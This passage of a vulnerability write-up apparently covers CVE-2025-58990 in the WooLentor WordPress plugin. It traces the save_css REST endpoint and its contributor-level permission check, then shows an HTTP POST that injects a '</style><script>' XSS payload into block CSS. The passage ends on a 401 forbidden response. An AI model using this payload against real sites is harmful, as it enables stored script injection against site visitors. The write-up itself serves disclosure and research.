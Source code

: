 `permission_check` ensures that only users with **contributor** or higher can access the API.

The exact **namespace** is not defined in this class, but we can trace it using the `save_css` route. Access `/wp-json/` and search for `save_css`.

![Search](images/posts/2025-09-17-CVE-2025-58990/search.png)

The endpoint is:

```
http://localhost/wp-json/woolentor/v1/save_css
```

To locate where this **namespace** is defined, search the code for `'woolentor/v1'`. Focus on **Api.php** for the REST API.

`register_routes( $namespace )` in `Manage_Styles` requires `$namespace`, which is passed as `woolentor/v1`.

![Call Api](images/posts/2025-09-17-CVE-2025-58990/callapi.png)

👉 Therefore, sending a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` triggers `save_block_css` to add/update block CSS in file and database.
When accessing a post with the corresponding `post_id`, `generate_inline_css` fetches the block CSS and inlines it in `<style type="text/css"></style>`.

---

## Exploit

### Detect XSS

Use a **contributor** user to create any post and note its `post_id`.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```
